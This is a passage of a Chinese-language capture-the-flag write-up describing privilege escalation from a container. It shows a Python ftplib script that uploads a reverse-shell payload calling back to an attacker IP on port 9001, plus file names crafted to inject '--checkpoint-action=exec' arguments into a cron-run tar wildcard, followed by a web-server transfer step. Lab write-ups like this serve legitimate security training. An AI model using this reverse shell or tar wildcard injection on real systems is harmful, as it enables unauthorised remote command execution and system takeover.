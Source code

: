 ```
if (ftp_put($ftp, $remote_file, $file, FTP_ASCII)) {        
    $msg = "$file was uploaded.\n";                                                            
}                                                                                              

echo $msg;                                                                                     
ftp_close($conn_id);
```

这个不完整的 PHP 脚本与 FTP 试图上传数据库备份“backup.sql”有关，我们可以从这个脚本中看到。但是当我们运行 Nmap 扫描时，FTP 没有打开。怎么会？🤔

所以在这一刻，我不知道该做些什么，因为在我过去做的任何一部 CTF 电影中，我都没有面临过这样的挑战。我知道通配符利用，但我不知道 python 有一个名为“ftplib”的模块。我不得不做很多研究，但是运气不好，我不能利用它。但是在互联网上做了一些研究后，我发现了下面的脚本😉。

由于 FTP 服务器只能从内部网络访问，我们可以使用 python 来完成我们的工作。

```
#!/usr/bin/env python3.7 

from ftplib import FTP
import io 
import os
import fileinput

host = "172.20.0.1"
username = "backupmgr"
password = "<PASSWORD>" # Password we found in ftp_backup.php

ftp = FTP(host=host)

login_status = ftp.login(user=username, passwd=password)
print(login_status)
ftp.set_pasv(False)
ftp.cwd('files')
print(ftp.dir())

rev = io.BytesIO(b'python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.1.87",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\'')
emptyFile = io.BytesIO(b'')
ftp.storlines('STOR rev.sh', rev)
ftp.storlines('STOR --checkpoint=1', emptyFile)
ftp.storlines('STOR --checkpoint-action=exec=sh rev.sh', emptyFile)
ftp.dir()
```

一个 crontab 正在容器外运行！用户`backupmgr`每隔几分钟运行`tar`，并使用通配符`*`来包含`ftp://files`目录中的所有内容。因为 tar 容易受到通配符*的攻击，所以我们能够利用它。

然后，我们可以通过在本地机器上托管一个 python web 服务器，将这个脚本传输到目标机器上。

```
python3 -m http.server 80
```

在目标计算机中，将目录更改为/tmp，因为我们是低特权用户，我们没有对任何其他目录的写权限。在目标机器上使用 wget，我们需要下载托管的 python 脚本。下载完 python 脚本后，我们需要将权限更改为可执行。
